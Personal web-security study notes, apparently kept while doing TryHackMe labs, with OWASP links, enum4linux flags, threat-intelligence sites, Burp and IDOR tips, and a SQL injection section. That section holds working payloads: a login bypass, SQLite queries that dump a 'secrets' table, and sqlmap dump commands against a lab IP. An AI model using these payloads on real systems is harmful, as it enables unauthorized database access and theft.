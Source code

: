 # R

* Remember for web/general/security

<hr class="sep-both">

## OWASP

* https://owasp.org/www-project-top-ten/
* Juiceshop
* https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html
* https://github.com/OWASP/wstg
* https://wiki.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents
* https://github.com/OWASP/CheatSheetSeries
* https://www.zaproxy.org/
* https://github.com/OWASP/Amass

<hr class="sep-both">

## enum4linux

![Usage: Enumerating Information](https://img.shields.io/badge/usage-Enumerating%20Information-ffd700)

I don't know if there is still an `enum.exe`, because I can't find it, but you can use the tool [enum4linux](https://github.com/CiscoCXSecurity/enum4linux) for enumerating information from Windows, and Samba hosts.

```bash
$ ./enum4linux.pl <options> <ip>
# -U : list of users
# -M : list of devices
# -S : list of shares
# -o : os data
# -i : printer data
# -v : verbose
```

<hr class="sep-both">

# Notes

* https://tryhackme.com/resources/blog/online-training-for-careers
* https://tryhackme.com/resources/blog/cyber-security-awareness-month
* There are websites on the Internet that allow you to check the reputation of an IP address to see whether it's malicious or suspicious.
  * AbuseIPDB
  * Cisco Talos Intelligence
  * https://ipinfo.io/
* https://www.virustotal.com/gui/home/upload
* https://www.hybrid-analysis.com/
* https://otx.alienvault.com/ (An open-source threat tracking system)

<hr class="sep-both">

# Learn again

* netdiscover
* https://www.sans.org/cyberaces/

<hr class="sep-both">

# SQL

* Input Box String: usual
* Input Box Non-String: when there is no quotes: `'' OR 1=1-- -`
* If you have trouble via a form (client-side verification) intercept the request
* Look into the field name to guess column names
* Update
  * none',nickName='lol
* Version
  * (SELECT banner FROM v$version)
  * sqlite_version()
    * SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
    * ',nickName=(SELECT group_concat(tbl_name, '<br>') FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
    * ',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='
    * ',nickName=(SELECT group_concat(id || ":" || author || ":" || secret, '<br>') FROM secrets),email='
* https://www.kirsle.net/wizards/flask-session.cgi
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
* sqlmap -u http://10.10.55.189:5000/challenge3/login --data="username=admin&password=admin"
  --level=5 --risk=3 --dbms=sqlite --technique=b --dump
* sqlmap -u http://10.10.55.189:5000/challenge3/login --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dump --threads 10
* https://tryhackme.com/room/sqlilab
* See tamper script

<hr class="sep-both">

## Burp

* take a request captured in the Proxy, edit it, and send the same request repeatedly as many times as we wish
* tabs per request

<hr class="sep-both">

# weeb

* https://www.base64decode.org/
* https://www.base64encode.org/
* IDOR: if accounts are unpredictable, try making two accounts, and test if you can swap with both.
* URL/source code, scripts (see network tab)...